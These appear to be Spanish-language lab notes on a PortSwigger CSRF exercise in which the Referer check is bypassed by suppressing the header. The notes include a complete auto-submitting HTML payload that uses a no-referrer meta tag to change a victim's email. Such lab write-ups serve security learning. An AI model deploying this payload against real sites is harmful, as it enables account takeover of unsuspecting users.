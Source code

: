 En este laboratorio se aprovecha una mala implementación del control de Referer como medida de protección contra ataques CSRF. Aunque la aplicación valida el encabezado Referer para asegurarse de que provenga del mismo dominio, acepta las peticiones incluso cuando este encabezado no está presente.

Mediante una metaetiqueta con name igual a referrer y content igual a no-referrer, se evita que el navegador incluya automáticamente el encabezado en la petición. Así, se logra que el servidor acepte la solicitud sin validar el origen, permitiendo cambiar el correo de la víctima sin romper ninguna política de seguridad aparente.

Este tipo de fallos demuestran cómo las medidas de seguridad basadas únicamente en encabezados pueden ser fácilmente burladas, especialmente cuando hay un fallback inseguro como en este caso.

Solucion
aqui vemos la peticion que el referer verifica que nosotro vengamos de la url correcta
![[Pasted image 20250723231034.png]]
entonces si nosotro quitamos de alguna manera el referer podemos cambiar el correo y esto lo logramos con un payload donde con las etiquetas html y meta logramos burlarlo
(<html>
<head>
   <meta name="referrer" content="no-referrer">
</head>
<form method="POST" action="https://0a7500d50483caaf80193a2c0082006c.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<script>
        document.forms[0].submit();
</script>
</html>)

![[Pasted image 20250723231626.png]]
![[Pasted image 20250723231951.png]]
